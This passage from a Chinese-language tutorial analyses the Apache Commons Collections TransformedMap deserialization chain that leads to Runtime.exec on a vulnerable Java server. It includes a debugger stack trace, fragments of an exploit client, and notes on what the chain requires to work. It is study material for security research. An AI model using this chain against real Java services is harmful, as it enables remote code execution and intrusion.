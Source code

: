 jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:497), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.TransformedMap.checkSetValue (TransformedMap.java:169), pc = 5
  [9] org.apache.commons.collections.map.AbstractInputCheckedMapDecorator$MapEntry.setValue (AbstractInputCheckedMapDecorator.java:191), pc = 5
  [10] sun.reflect.annotation.AnnotationInvocationHandler.readObject (AnnotationInvocationHandler.java:451), pc = 187
  [11] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [12] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [13] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [14] java.lang.reflect.Method.invoke (Method.java:497), pc = 56
  [15] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,017), pc = 20
  [16] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:1,896), pc = 93
  [17] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:1,801), pc = 181
  [18] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,351), pc = 389
  [19] java.io.ObjectInputStream.readObject (ObjectInputStream.java:371), pc = 19
  [20] VulnerableServer.main (VulnerableServer.java:22), pc = 51

这是8u40的调用栈回溯。1至10号栈帧与8u232下TransformedMapExec的调用栈基本一
致。

EvilClientWithTransformedMap.java与TransformedMapExec.java非常接近，你可能
有几个疑问:

--------------------------------------------------------------------------
a) normalMap.put( "value", "anything" );

第一形参(key)为什么必须是"value"这个字符串？最初我没用"value"，未能得手，
调试之后才发现这点。

b) cons.newInstance( Retention.class, transformedMap );

第一形参(type)除了Retention，还能使用其他接口吗？
--------------------------------------------------------------------------

8.2.6) 简化版调用关系

--------------------------------------------------------------------------
ObjectInputStream.readObject
    AnnotationInvocationHandler.readObject
        MapEntry.setValue
            TransformedMap.checkSetValue
                ChainedTransformer.transform
--------------------------------------------------------------------------
